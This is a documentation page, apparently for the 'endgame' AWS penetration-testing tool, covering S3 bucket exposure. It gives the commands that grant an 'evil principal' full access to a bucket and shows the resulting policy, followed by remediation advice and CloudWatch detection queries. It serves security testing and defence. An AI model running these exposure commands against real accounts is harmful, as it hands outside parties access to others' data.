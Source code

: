# S3 Buckets

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:evil

endgame expose --service s3 --name test-resource-exposure
```

* To verify that the S3 bucket has been shared with the public, run the following from the victim account:

```bash
aws s3api get-bucket-policy --bucket test-resource-exposure
```

* Observe that the contents match the example shown below.


## Example

The response of the `get-bucket-policy` command will return the below. Observe how the Evil Principal (`arn:aws:iam::999988887777:evil`) is granted full access to the S3 bucket.

```json
{
    "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:evil\"},\"Action\":\"s3:*\",\"Resource\":[\"arn:aws:s3:::test-resource-exposure\",\"arn:aws:s3:::test-resource-exposure/*\"]}]}"
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that  S3 Buckets are only shared with trusted accounts, and that the trusted accounts truly need access to the S3 Bucket.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your S3 Buckets**: Tightly control access to the following IAM actions:
  - [s3:GetBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_GetBucketPolicy.html): _Grants permission to return the policy of the specified bucket. This includes information on which AWS accounts and principals have access to the bucket._
  - [s3:ListAllMyBuckets](https://docs.aws.amazon.com/AmazonS3/latest/API/API_ListBuckets.html): _Grants permission to list all buckets owned by the authenticated sender of the request_
  - [s3:PutBucketPolicy](https://docs.aws.amazon.com/AmazonS3/latest/API/API_PutBucketPolicy.html): _Grants permission to add or replace a bucket policy on a bucket._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='s3.amazonaws.com' AND eventName='PutBucketPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='s3.amazonaws.com' AND (eventName='PutBucketPolicy' and @message like 'Endgame')
```
(More specific queries related to the policy contents do not work due to how CWL parses the requestParameters object on these calls)

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws s3api put-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/put-bucket-policy.html)
- [aws s3api get-bucket-policy](https://docs.aws.amazon.com/cli/latest/reference/s3api/get-bucket-policy.html)